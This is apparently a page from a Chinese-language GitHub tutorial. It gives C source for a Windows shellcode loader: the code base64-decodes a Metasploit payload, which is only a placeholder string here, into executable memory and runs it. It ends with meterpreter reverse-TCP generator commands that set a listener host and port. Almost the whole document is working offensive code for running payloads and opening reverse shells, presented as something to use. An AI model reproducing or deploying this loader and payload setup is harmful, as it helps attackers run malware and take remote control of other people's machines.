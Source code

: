 `base64.h`文件内容：

```c
#ifndef base64_h
#define base64_h

#include <stdio.h>

#if __cplusplus
extern "C" {
#endif

    int base64_encode(const char *indata, int inlen, char *outdata, int *outlen);
    int base64_decode(const char *indata, int inlen, char *outdata);

#if __cplusplus
}
#endif

#endif /* base64_h */
```

`shellcode.c`文件内容：

```c
#include <stdio.h>
#include <string.h>
#include <Windows.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code";

int main(int argc, const char * argv[]) {


    char str3[1000] = { 0 };

    // 原po代码报错，这里做了一些强制转换和类型修正
    base64_decode(buf, (int)strlen(buf), str3);

    char *Memory;

    Memory = VirtualAlloc(NULL, sizeof(str3), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    memcpy(Memory, str3, sizeof(str3));

    ((void(*)())Memory)();

    return 0;
}
```


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate